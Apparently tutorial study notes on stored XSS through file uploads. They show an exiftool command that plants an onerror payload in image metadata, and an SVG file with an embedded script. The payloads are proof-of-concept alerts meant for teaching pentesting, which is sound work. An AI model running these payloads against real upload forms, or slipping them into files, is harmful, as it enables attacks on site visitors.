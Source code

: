 ### XSS 
Many file types may allow us to introduce a `stored XSS` vulnerability to the web application by uploading maliciously crafted versions of the files. For instance, when a web application allows us to upload `HTML` files, although HTML files won't allow us to execute code (PHP), it would still be possible to implement `malicious javascript` code within them to carry an `XSS` or `CSRF` attack on whoever visits the uploaded HTML page.  

---

Another example of XSS attacks is web applications that display an `image's metadata` after its upload. This can be seen in web applications like `Flickr` or `Instagram` because these web applications may show details about the uploaded photo, such as the camera model or location. For such web applications, we can include an XSS payload in one of the Metadata's parameters that accepts raw text, like the `comment` or `artist` parameter: 

```bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' example.jpg
exiftool example.jpg

OUTPUTS: "><img src=1 onerror=alert(window.origin)>
```

> exiftool is a command-line utility for reading and modifying metadata in files, especially images. It supports many formats such as JPEG, PNG, and TIFF

Furthermore, if we change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed. 

---

XSS attacks can also be carried with `SVG` images, along with other attacks. `SVG` images are `XML-based`, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can `modify` their `XML data` to include an `XSS payload`. For example, we can write the following to `example.jpg`: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
> TIP: Unlike typical image formats like JPEG or PNG, an SVG is text-based, meaning it contains code that tells the browser how to render the image.

An example of an SVG file: 

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
    <circle cx="50" cy="50" r="40" fill="red" />
</svg>

```
